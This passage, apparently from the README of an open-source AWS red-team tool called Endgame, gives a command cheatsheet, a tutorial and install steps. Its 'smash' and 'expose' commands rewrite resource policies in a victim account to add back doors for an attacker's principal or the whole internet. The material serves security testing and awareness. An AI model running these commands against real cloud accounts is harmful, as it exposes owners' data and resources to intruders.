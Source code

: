 
# Cheatsheet

```bash
# this will ruin your day
endgame smash --service all --evil-principal "*"
# This will show you how your day could have been ruined
endgame smash --service all --evil-principal "*" --dry-run
# Atone for your sins
endgame smash --service all --evil-principal "*" --undo
# Consider maybe atoning for your sins
endgame smash --service all --evil-principal "*" --undo --dry-run

# List resources available for exploitation
endgame list-resources --service all
# Expose specific resources
endgame expose --service s3 --name computers-were-a-mistake
```

# Tutorial

The prerequisite for an attacker running Endgame is they have access to AWS API credentials for the victim account which have privileges to update resource policies.

Endgame can run in two modes, `expose` or `smash`. The less-destructive `expose` mode is surgical, updating the resource policy on a single attacker-defined resource to include a back door to a principal they control (or the internet if they're mean).

`smash`, on the other hand, is more destructive (and louder). `smash` can run on a single service or all supported services. In either case, for each service it enumerates a list of resources in that region, reads the current resource policy on each, and applies a new policy which includes the "evil principal" the attacker has specified. The net effect of this is that depending on the privileges they have in the victim account, an attacker can insert dozens of back doors which are not controlled by the victim's IAM policies.

## Installation

* pip3

```bash
pip3 install --user endgame
```

* Homebrew (this will not work until the repository is public)

```bash
brew tap salesforce/endgame https://github.com/salesforce/endgame
brew install endgame
```

Now you should be able to execute Endgame from command line by running `endgame --help`.

### Shell Completion
